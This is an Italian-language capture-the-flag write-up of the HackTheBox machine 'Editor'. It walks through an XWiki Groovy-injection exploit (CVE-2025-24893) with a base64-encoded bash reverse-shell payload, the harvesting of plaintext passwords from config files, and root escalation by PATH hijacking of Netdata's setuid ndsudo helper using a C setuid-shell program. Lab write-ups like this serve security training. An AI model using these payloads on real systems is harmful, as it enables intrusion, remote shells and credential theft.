








# **Editor**


Machine Information:
```text
Services may take up to 5 minutes to load.
```

## **Reconnaissance**

Come indicato dalle **Machine Information** relative alla macchina target, si attende qualche minuto prima di avviare la scansione.

Si identificano le porte TCP aperte esposte sulla macchina target.
```bash
$ nmap -p- --min-rate 1000 10.10.11.80 --open
```
```text
Nmap scan report for 10.10.11.80
Host is up (0.12s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 38.85 seconds
```

Si analizzano le porte TCP aperte esposte dalla macchina.
```bash
$ nmap -p22,80,8080 -sCV 10.10.11.80
```

```text
Nmap scan report for 10.10.11.80
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

A seguire i servizi esposti dalla macchina target e alcune informazioni:
- **OpenSSH v8.9p1** sulla porta 22/tcp
    
    Per questa versione di OpenSSH si e' individuato:

    1. **Ubuntu 22.04 (Jammy)**, il sistema operativo sottostante.
    2. La **CVE-2025-32728** di questa versione vulnerabile di OpenSSH.

-  **Nginx v1.18.0** sulla porta 80/tcp

    Le richieste alla porta 80 vengono reindirizzate al server name **editor.htb**.

- **Jetty v10.0.20** sulla porta 8080/tcp

    Jetty e' un Java-based web server e Servlet engine che serve come supporto a protocolli web HTTP/3,2,1 e WebSocket.

    Altre informazioni rilevanti:
    - La presenza di un robots.txt
    - HTTP-only disabilitato

Si aggiorna il file /etc/hosts aggiungendo un record per associare l'indirizzo IP con il server name.
```text
10.10.11.80 editor.htb
```

## **Visiting the URLs**

Si visita l'URL **http://editor.htb**.



Ed anche l'URL **http://editor.htb:8080** che reindirizza a **http://editor.htb:8080/xwiki/bin/view/Main/**.



**Xwiki** permette di accedere con delle credenziali.
 


Viene anche evidenziato che si sta usando la versione **15.10.8** di **Xwiki**.

## **CVE-2025-24893**
Si e' individuata la CVE-2025-24893 per Xwiki <15.10.11 che permetterebbe una unauthenticated remote code executuon tramita la macro SolrSearch.

Sostanzialmente, dall'URL `/xwiki/bin/view/Main/SolrSearchMacros?search=` e' possibile iniettare e far eseguire del codice Groovy.

Si utilizza la PoC [https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) che esegue una "cat /etc/passwd".



Funziona!

> CVE-2025-24893 – Unauthenticated Remote Code Execution in XWiki via SolrSearch Macro - OffSec [https://www.offsec.com/blog/cve-2025-24893/](https://www.offsec.com/blog/cve-2025-24893/)

### Crafting the payload

Si costruisce un payload per eseguire una reverse shell.

```text
# Shell command to execute
/bin/bash -i >& /dev/tcp/10.10.16.x/4444 0>&1
```
```text
# Base64 encoding
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==
```
```text
# Groovy code to inject
}}}{{async async=false}}{{groovy}}["/bin/bash","-c","echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==|base64 -d|bash -i"].execute(){{/groovy}}{{/async}}
```
```text
# URL
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}["/bin/bash","-c","echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLngueC54LzQ0NDQgMD4mMQ==|base64 -d|bash -i"].execute(){{/groovy}}{{/async}}
```

### Exploitation
Si avvia un listener sulla porta 4444 e si avvia l'exploit definito nel file **revshell.sh**.



Si ottiene una shell come **xwiki**.

## **Shell as xwiki**

Si enumerano gli utenti che possono accedere alla shell.
```bash
xwiki@editor:/$ cat /etc/passwd | grep -E sh$
```
```texy
root:x:0:0:root:/root:/bin/bash
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Si enumerano i processi in esecuzione.
```bash
xwiki@editor:/$ ps aux
```
```text
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND

xwiki       1061 14.6 27.3 3971000 1093928 ?     Ssl  22:03   5:12 java --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.io=ALL-UNNAMED --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/java.util.concurrent=ALL-UNNAMED -Xmx1024m -Dxwiki.data.dir=/var/lib/xwiki/data -XX:+HeapDumpOnOutOfMemoryError -XX:HeapDumpPath=/var/lib/xwiki/data -Djetty.home=jetty -Djetty.base=. -Dfile.encoding=UTF8 -Djetty.http.port=8080 -jar jetty/start.jar jetty.http.port=8080 STOP.KEY=xwiki STOP.PORT=8079

xwiki       1166  0.0  0.0   7372  1800 ?        S    22:03   0:01 /bin/bash /usr/lib/xwiki-jetty/start_xwiki.sh
```

Si analizza il contenuto del file **/usr/lib/xwiki-jetty/start_xwiki.sh** e si individua dove sono memorizzati i dati di Xwiki.

```text
# Location where XWiki stores generated data and where database files are.
XWIKI_DATA_DIR=/var/lib/xwiki/data
```

Ma non si e' trovata alcuna informazione rilevante.

Si cerca tra i file di configurazione:
```bash
xwiki@editor:/$ find / -regex "/etc/.*xwiki" -type d 2>/dev/null
```
```text
/etc/xwiki
```

Si cercano delle credenziali per **oliver**.
```bash
xwiki@editor:/$ grep -ri pass /etc/xwiki 2>/dev/null | sort -u
```
Di seguito i risultati rilevanti:
```
/etc/xwiki/hibernate.cfg.xml:    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
/etc/xwiki/hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
/etc/xwiki/hibernate.cfg.xml.ucf-dist:    <property name="hibernate.connection.password">xwikipassword2025</property>
/etc/xwiki/xwiki.cfg:# xwiki.superadminpassword=system
/etc/xwiki/xwiki.properties:# extension.repositories.privatemavenid.auth.password = thepassword
/etc/xwiki/xwiki.properties:# mail.sender.password = somepassword
```

Le password raccolte sono:
- theEd1t0rTeam99
- xwiki
- xwikipassword2025
- system
- thepassword
- somepassword

Si tenta l'accesso tramite SSH.



Si ottiene l'accesso alla shell con **oliver:theEd1t0rTeam99**.

## **Shell as oliver**

Si ha accesso al file **user.txt**.

```bash
oliver@editor:~$ cat user.txt
ee11f13465e8f2913e9483e640df5e45
```

## **Privilege Escalation**

```bash
oliver@editor:~$ id
```
```
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```
```bash
oliver@editor:~$ sudo -l
```
```
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Si cercano risorse accessibili con l'appartenenza al gruppo **netdata**.

```bash
oliver@editor:~$ find / -group netdata -type d 2> /dev/null
```
```
/opt/netdata/var
/opt/netdata/var/cache
/opt/netdata/var/cache/netdata
/opt/netdata/var/cache/netdata/dbengine
/opt/netdata/var/cache/netdata/dbengine-tier2
/opt/netdata/var/cache/netdata/dbengine-tier1
/opt/netdata/var/run
/opt/netdata/var/lib
/opt/netdata/var/lib/netdata
/opt/netdata/var/lib/netdata/cloud.d
/opt/netdata/var/lib/netdata/lock
/opt/netdata/var/lib/netdata/registry
/opt/netdata/var/lib/netdata/config
/opt/netdata/var/log
/opt/netdata/var/log/netdata
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.d
```

Per il Linux File System, la cartella /opt contiene il software opzionale e quindi si cerca sul web informazioni a riguardo di netdata.



Netdata e' un software per il monitoraggio di sistemi e applicazioni.

Si cercano file eseguibili con la flag **setuid**.
```bash
oliver@editor:~$ find /opt/netdata -perm -4000 -type f -executable -exec ls -lah '{}' \+ 2>/dev/null
```
```
-rwsr-x--- 1 root netdata 943K Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
-rwsr-x--- 1 root netdata 4.1M Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
-rwsr-x--- 1 root netdata  80K Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ioping
-rwsr-x--- 1 root netdata 1.1M Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
-rwsr-x--- 1 root netdata 196K Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
-rwsr-x--- 1 root netdata 1.4M Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
-rwsr-x--- 1 root netdata 876K Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
```

Sono molteplici gli eseguibili che il gruppo **netdata** puo' lanciare con i privilegi di **root**.

Si indaga sul file **ndsudo**.
```bash
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo --help
```
```
ndsudo

(C) Netdata Inc.

A helper to allow Netdata run privileged commands.

  --test
    print the generated command that will be run, without running it.

  --help
    print this message.

The following commands are supported:

- Command    : nvme-list
  Executables: nvme 
  Parameters : list --output-format=json

- Command    : nvme-smart-log
  Executables: nvme 
  Parameters : smart-log {{device}} --output-format=json

- Command    : megacli-disk-info
  Executables: megacli MegaCli 
  Parameters : -LDPDInfo -aAll -NoLog

- Command    : megacli-battery-info
  Executables: megacli MegaCli 
  Parameters : -AdpBbuCmd -aAll -NoLog

- Command    : arcconf-ld-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 LD

- Command    : arcconf-pd-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 PD

The program searches for executables in the system path.

Variables given as {{variable}} are expected on the command line as:
  --variable VALUE

VALUE can include space, A-Z, a-z, 0-9, _, -, /, and .
```



Quindi, **ndsudo** e' utilizzato per lanciare collector **nvme** per il monitoraggio degli NVMe devices.

```bash
$ oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
```
nvme : not available in PATH.
```

Su PATH non e' presente il collector **nvme**.

Si potrebbero sfruttare i privilegi di **ndsudo** per eseguire codice malevole modificando la variabile d'ambiente **PATH**.

### Crafting the payload

Si costruisce un file per accedere alla shell privilegiata.
```c
#include <unistd.h>
#include <stdlib.h>

void main() {
    setuid(0);
    setgid(0);
    char* cmd = "sudo /bin/bash -p";
    system(cmd);
}
```

Si ottiene il file eseguibile specificando come filename **nvme**.
```bash
$ gcc -o nvme exploit.c
```

Si carica il file eseguibile sulla macchina target nella cartella /tmp.
```bash
oliver@editor:~$ nc -lvnp 9001 > /tmp/nvme 
Listening on 0.0.0.0 9001
```
```bash
$ cat nvme | nc 10.10.11.80 9001 
```

```bash
oliver@editor:~$ file /tmp/nvme 
/tmp/nvme: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d24164a7e6e15ceaf2161b4cd0a92f4798c56e13, for GNU/Linux 3.2.0, not stripped
```

### Path Hjacking

Si lancia l'exploit.
```bash
# Set the executable permission
oliver@editor:~$ chmod +x /tmp/nvme

# Path Hijacking
oliver@editor:~$ PATH=/tmp/:$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Si ottiene la shell come root.
```
root@editor:/home/oliver# whoami
root
```

## **Shell as root**
Si accede al file **root.txt**.
```
root@editor:/home/oliver# cat /root/root.txt
9771f8a5d2d0e43f3d6ed4d3a3b5b365
```
